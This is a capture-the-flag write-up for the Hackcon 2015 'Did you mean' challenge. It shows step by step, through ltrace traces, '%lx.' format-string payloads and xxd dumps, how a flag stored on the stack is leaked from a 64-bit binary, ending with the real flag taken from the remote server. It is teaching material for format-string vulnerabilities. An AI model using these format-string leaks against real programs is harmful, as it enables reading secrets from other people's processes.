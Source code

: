# Hackcon 2015: Did you mean

**Category:** Pwnage
**Points:** 50
**Author:** [Aneesh Dogra](https://github.com/lionaneesh)
**Difficulty:** Medium
**Description:** 

[Pwnie](pwnie)

## Write-up

This writeup is based on following writeups:

* <http://vimvaders.github.io/hackcon2015/2015/08/20/did-you-mean.html>

### Meta

Keywords:

* Format String `fs`
* Difficulty: `beginner`

We are given a x86-64bit non-stripped ELF for Linux:

```bash
$ file pwnie
pwnie: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b87bef02278df740b6c0011e989f39b08ccfc998, not stripped
```

Running it:

```bash
$ ./pwnie
No!
```

`ltrace -f`:

```bash
$ ltrace -f ./pwnie 
[pid 3161] __libc_start_main(0x4006c0, 1, 0x7fff95c96be8, 0x4008b0 <unfinished ...>
[pid 3161] fopen("flag.txt", "r")                     = 0
[pid 3161] puts("No!"No!
)                                = 4
[pid 3161] fflush(0x7f5b83ac7400)                     = 0
[pid 3161] +++ exited (status 255) +++
```

Looks like we have to provide a flag file named `flag.txt` with a flag in it: `echo 'flag{thisisatestflag}' > flag.txt`

Running it again:

```bash
$ ./pwnie 
hello?
Did you say: 
hello?
```

It echos back whatever we are saying!

Trying a Stack Buffer Overflow:

```bash
$ p -c 'print "A"*0x200' | ./pwnie 
Did you say: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$
$ echo -n AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA | wc
      0       1      99
```

Looks like we can't smash the stack and only provide up to `99`/`100` bytes of input.

We try to verify this again with `ltrace -f`:

```bash
$ ltrace -f ./pwnie 
[pid 3172] __libc_start_main(0x4006c0, 1, 0x7fff475ce218, 0x4008b0 <unfinished ...>
[pid 3172] fopen("flag.txt", "r")                     = 0xc6e010
[pid 3172] fgets("flag{thisisatestflag}\n", 100, 0xc6e010) = 0x7fff475ce060
[pid 3172] fgets(hello
"hello\n", 100, 0x7f51d851e640)      = 0x7fff475ce0c4
[pid 3172] strncmp("hello\n", "flag{thisisatestflag}\n", 10) = 2
[pid 3172] puts("Did you say: "Did you say: 
)                      = 14
[pid 3172] fflush(0x7f51d851e400)                     = 0
[pid 3172] __printf_chk(1, 0x7fff475ce0c4, 0, -1hello
)     = 6
[pid 3172] fflush(0x7f51d851e400)                     = 0
[pid 3172] +++ exited (status 0) +++
```

We see a `fopen` on our flag file and a `fgets` that reads the flag into the stack at `0x7fff475ce060`.

Afterwards, [`__printf_chk()`](http://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---printf-chk-1.html) is called, with the second argument being the format string.

This smells like a format string vulnerability!

Let's test it:

```bash
$ p -c 'print "%x."*0x10' | ./pwnie
Did you say: 
0.ffffffff.bde88740.0.67616c66.61736973.67616c66.0.0.0.0.bdeac520.789e91b0.789e91a0.f63d4e2e.400436.
```

We can see that after providing several `%x` (read e.g. [here](https://www.exploit-db.com/docs/28476.pdf) how format string exploits work), several lower-case words in hexadecimal from the stack are printed.

Since we are dealing with `64`bit, our words are long words, we provide the long hex format `%lx`:

```bash
$ p -c 'print "%lx."*0x10' | ./pwnie 
Did you say: 
0.ffffffffffffffff.7fe653ab0740.0.6968747b67616c66.7473657461736973.a7d67616c66.0.0.0.0.7fe653ad4520.7fffab9a88a0.7fffab9a8890.f63d4e2e.400436.
```

If you look at the `5th` and `6th` long word, you can see hexadecimal output, which is human readable if converted to ASCII.

[This python script](./format-dump.py) dumps all long words considering little-endianess and zero-padding to the screen, which we then pipe to `xxd` to convert to binary.

Since the flag is stored on the stack, we should see the flag if we provide enough long words formats.

```bash
$ p format-dump.py 50 | xxd -r -p | xxd
0000000: 0000 0000 0000 0000 ffff ffff ffff ffff  ................
0000010: 40e7 e61b 4a7f 0000 0000 0000 0000 0000  @...J...........
0000020: 666c 6167 7b74 6869 7369 7361 7465 7374  flag{thisisatest
0000030: 666c 6167 7d0a 0000 0000 0000 0000 0000  flag}...........
0000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000050: 0000 0000 0000 0000 2025 e91b 4a7f 0000  ........ %..J...
0000060: 9046 864c ff7f 0000 8046 864c ff7f 0000  .F.L.....F.L....
0000070: 2e4e 3df6 0000 0000 3604 4000 0000 0000  .N=.....6.@.....
0000080: ffff ffff 256c 782e 256c 782e 256c 782e  ....%lx.%lx.%lx.
0000090: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000a0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000b0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
```

We can clearly see the flag in the ASCII representation column of `xxd`.

If we test it on the remote server, we get the real flag, `FORMAT(str)`:

```bash
$ p format-dump.py 50 | xxd -r -p | xxd
0000000: 0000 0000 0000 0000 ffff ffff ffff ffff  ................
0000010: 4057 0b81 f67f 0000 0000 0000 0000 0000  @W..............
0000020: 464f 524d 4154 2873 7472 2900 f67f 0000  FORMAT(str).....
0000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
0000050: 0000 0000 0000 0000 2095 0d81 f67f 0000  ........ .......
0000060: 0077 0f93 ff7f 0000 f076 0f93 ff7f 0000  .w.......v......
0000070: 2e4e 3df6 0000 0000 3604 4000 0000 0000  .N=.....6.@.....
0000080: ffff ffff 256c 782e 256c 782e 256c 782e  ....%lx.%lx.%lx.
0000090: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000a0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
00000b0: 256c 782e 256c 782e 256c 782e 256c 782e  %lx.%lx.%lx.%lx.
```

## Other write-ups and resources

 <http://vimvaders.github.io/hackcon2015/2015/08/20/did-you-mean.html>

